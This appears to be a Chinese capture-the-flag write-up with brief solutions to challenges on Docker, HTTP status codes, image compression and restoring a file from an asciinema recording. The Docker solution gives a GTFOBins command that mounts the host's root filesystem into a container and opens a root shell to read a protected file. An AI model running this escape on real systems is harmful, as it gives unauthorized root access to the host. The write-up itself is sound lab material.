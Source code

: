## Docker for Everyone

根据 [GTFOBins](https://gtfobins.github.io/gtfobins/docker/){: target="_blank" rel="noopener"} ，直接运行 `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` 即可读取 flag 文件。

## HTTP 集邮册 - 5 种状态码

直接提交获得 `200 OK`。

删除 `HTTP` （但不删除后面的版本号）得到 `400 Bad Request`。

把 `GET` 改成 `GT` 得到 `405 Method Not Allowed`。

添加 `Range: bytes=0-1` 标头可以得到 `206 Partial Content`。

添加 `Expect: 100-continue` 标头可以得到 `100 Continue`。

## 🪐 低带宽星球 - 小试牛刀

直接使用 [tinypng](https://tinypng.com/){: target="_blank" rel="noopener"} 就可以获得所需的图片文件。

## 🪐 高频率星球

直接暴力解析 asciinema 文件，提取录制的输出，再把 `less` 输出的控制字符去掉，即可还原 `flag.js`。代码如下：

```js
const fs=require("fs")
const data=fs.readFileSync("asciinema_restore.rec","utf-8").split("\n").filter(l=>l.trim()!=="").map(l=>JSON.parse(l))

let raw=data.filter(l=>l[1]==="o"&&l[0]>=6.9268&&l[0]<=62&&l[2]!=="\r\u001b[K \u001b[KESC\b\b\bESC\u001b[K[\b[\u001b[K6\b6\u001b[K~\b~\r\u001b[K").map(l=>l[2]).join("")

raw=raw.replaceAll("\u001b[7mflag.js\u001b[27m\u001b[K","")
raw=raw.replaceAll(":\u001b[K","")
raw=raw.replaceAll("\u001b[K~\b~\r\u001b[K","")
raw=raw.replaceAll("\r\u001b[K \u001b[KESC\b\b\bESC\u001b[K[\b[\u001b[K6\b6","")
raw=raw.replaceAll("\u001b[7m(END)\u001b[27m\u001b[K","")

console.log(raw)
```

## HTTP 集邮册 - 没有状态……哈？

我们使用 HTTP 0.9，也就是直接把 `HTTP/1.1` 直接干掉，这样就没有状态码了！

## HTTP 集邮册 - 12 种状态码

将 HTTP 版本改为 2.0 可以得到 `505 Version Not Supported`。

将路径改为 `/A` 可以得到 `404 Not Found`。

将路径改得足够长可以得到 `414 URI Too Long`。
